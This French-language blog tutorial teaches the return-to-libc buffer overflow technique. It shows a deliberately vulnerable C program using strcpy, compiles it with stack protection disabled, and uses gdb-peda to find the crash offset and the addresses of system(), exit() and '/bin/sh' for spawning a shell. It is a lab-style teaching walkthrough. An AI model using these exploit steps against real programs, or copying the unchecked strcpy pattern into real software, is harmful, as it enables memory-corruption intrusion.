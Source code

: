 ```yaml
---
title: "Technique de la retour à la libc"
description: rop.jpg
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Prérequis :
- Avoir les bases en `pwn` de comprendre et comment attaquer un buffer overflow basique.
- Et d'un ordinateur, eh eh !

Aujourd'hui je souhaite vous présentez un article pour une nouvelle technique de `Buffer Overflow`. Une technique relativement amusante et très simple, êtes-vous intéressez ? Si c'est le cas, allons-y !

# C'est quoi la technique de la retourne à la libc ?

Ce que nous avons vue la dernière fois en rapport avec les `Buffer Overflow` pour exécuter un `shellcode`,  il fallait que la `pile/stack` soit exécutable. 

    root@0xEX75:~# readelf -lW ./testing |grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
    
Le `R` désigne tout simplement que la pile est en lecture et la lettre `W` correspond concrètement à l'écriture sur la pile et enfin la lettre `E` correspond à la pile exécutable, et c'est grâce à ce système que nous pouvons exécuter un shellcode car c'est le processeur qui exécute notre shellcode.

![forthebadge made-with-python](https://2.bp.blogspot.com/-UPzV6M_ZsK8/W3B5kWiwYII/AAAAAAAAAeE/L1izLVAJGbwfh52XG4HjMtPDDMXC-bLqACLcBGAs/s1600/ret2libc.png)

Dans des cas assez spécifique, la pile n'est pas exécutable donc c'est presque impossible de faire exécuter un shellcode au programme pour `pop` un shell par exemple. Donc les experts ont trouver une solution qui se nomme la technique de `retourne à la libc`, qui permet d'utiliser des fonctions de la `libc`, comme par exemple la fonction `system();` pour ensuite l'utiliser contre le programme.

# Pratique exploitation !

(Pour cette partie, nous désactiverons l'`ASLR`, car la technique de retourne à la libc fonctionne uniquement si la pile n'est pas exécutable et que l'ASLR n'est pas activé.)

Voici un petit script en C qui ne fait pas grand chose :

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    void name(char*);

    void name(char *f)
    {
        char firstname[10];
        strcpy(firstname, f);
        printf("Your name : %s\n", firstname);
    }

    int main(int argc, char *argv[])
    {
        if(argc != 2)
        {
            exit(0);
        }
        name(argv[1]);
        return 0;
    }
    
Un programme basique qui ne fait pas grand chose, mais la vulnérabilité se trouve au niveau de la fonction `strcpy();`. Je suppose que vous savez que les fonctions comme `strcpy();`, `strcat();` etc.. ne sont pas du tout sécurisées donc il existe un système qui se nomme `FORTIFY_SOURCE` qui permet de remplacer les fonctions par des fonctions beaucoup plus sécurisées.

Ensuite, une petite compilation est nécessaire :

    root@0xEX75:~/libc# gcc -m32 -fno-stack-protector libc.c -o libc
    root@0xEX75:~/libc# readelf -lW libc|grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
    
(Le flag `E` n'est pas là, donc la pile n'est plus du tout exécutable.). Si nous essayons d'exécuter le programme après la compilation, cela fonctionne, mais dans la mémoire il se passe des choses.

    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*22')
    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*22')
    segmentation fault (core dumped)
    
Nous pouvons aperçevoir que le programme plante après 22 caractères, donc l'`OFFSET` correspond exactement à 22 caractères, si nous effectuons un dépassement, la sauvegarde `sEIP` sera complètement écrasé et le programme plantera automatiquement.

Nous allons lancer `GDB` (GNU Debugger), et nous allons chercher l'adresse de la fonction `system();`, `exit();` et finalement une chaîne comme `/bin/sh` qui nous permettra de lancer cette commande en particulier.

    root@0xEX75:~/libc# gdb ./libc
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./libc...
    (No debugging symbols found in ./libc)
    gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /root/libc/libc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Your name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x54 ('T')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x7fffffac 
    EDX: 0xf7fae010 --> 0x0 
    ESI: 0xf7fac000 --> 0x1d6d6c 
    EDI: 0xf7fac000 --> 0x1d6d6c 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd290 ('A' <repeats 45 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd290 ('A' <repeats 45 times>)
    0004| 0xffffd294 ('A' <repeats 41 times>)
    0008| 0xffffd298 ('A' <repeats 37 times>)
    0012| 0xffffd29c ('A' <repeats 33 times>)
    0016| 0xffffd2a0 ('A' <repeats 29 times>)
    0020| 0xffffd2a4 ('A' <repeats 25 times>)
    0024| 0xffffd2a8 ('A' <repeats 21 times>)
    0028| 0xffffd2ac ('A' <repeats 17 times>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e17660 <system> # ADDRESS FUNCTION SYSTEM
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e0a6f0 <exit> # ADDRESS FUNCTION EXIT
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xf7f54f68 ("/bin/sh") # ADDRESS /BIN/SH
    
Donc, nous avons réussis à capturer les adresses de `system();`, `exit()` et finalement de la chaîne "`/bin/sh"`.

- `system();` : `0xf7e17660
- `exit();`   : `0xf7e0a6f0`
- `/bin/sh`   : `0xf7f54f68`

![forthebadge made-with-python](https://fundacion-sadosky.github.io/guia-escritura-exploits/esoteric/imagenes/ret-2-libc.png)

Il suffit maintenant d'utiliser les adresses que nous avons capturer contre le programme afin de `pop` un shell.

